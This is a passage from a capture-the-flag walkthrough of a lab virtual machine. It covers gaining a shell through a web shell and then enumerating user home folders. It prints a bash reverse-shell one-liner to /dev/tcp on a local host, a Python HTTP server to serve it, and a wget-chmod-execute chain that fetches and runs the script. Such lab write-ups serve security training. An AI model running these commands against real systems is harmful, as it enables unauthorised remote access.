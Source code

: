 

![A23 – canrun](https://i.imgur.com/8bYrqBT.png)


All good news! We can run all of those commands, AND can write to /tmp – this means we are ready to set up our http server and download the script!


On our host machine, we write our shell script to a .sh file. I did this with a simple:

* `echo "bash -i >& /dev/tcp/192.168.56.1/51000 0>&1" > script.sh`

Then, we start our SimpleHTTPServer in that same directory with

* `python -m SimpleHTTPServer 51001`


![A24 host and script](https://i.imgur.com/YXKz4U7.png)


Our host machine is ready to serve up a freshly baked script. Make sure your listener is running, then we need to execute the change directory, download, make executable and run operation in the Web-Shell.


* `pwd && cd /tmp && wget http://192.168.56.1:51001/script.sh && chmod +x script.sh && bash script.sh`

Make sure your ports are right! The host port is 5100 *1* and the listener is 5100 __0__.


![A25 – shell popped!](https://i.imgur.com/2MlDwjN.png)





## 5. Enumerating With A User Shell

We have some enumeration and privesc shell scripts handy, but before we go downloading and running them, we should try some simple things.


Since this box is simulating a real world experience, we may see some common user missteps, such as leaving important notes and reminders laying around. Usually, these users would leave these things in a home folder – or maybe in emails.


Let’s see what we can see in the /home directory.


* `cd /home && ls`

We can see here that Nick and Sarah don’t have home folders on this machine, there is just bulldogadmin and django. Luckily, we ARE django.


* `ls *`  shows us the non-hiddden. contents of the directories.

Just a quick check to see if `root_password_do_not_touch.txt` is in any of these folders. Perhaps that file is hidden?

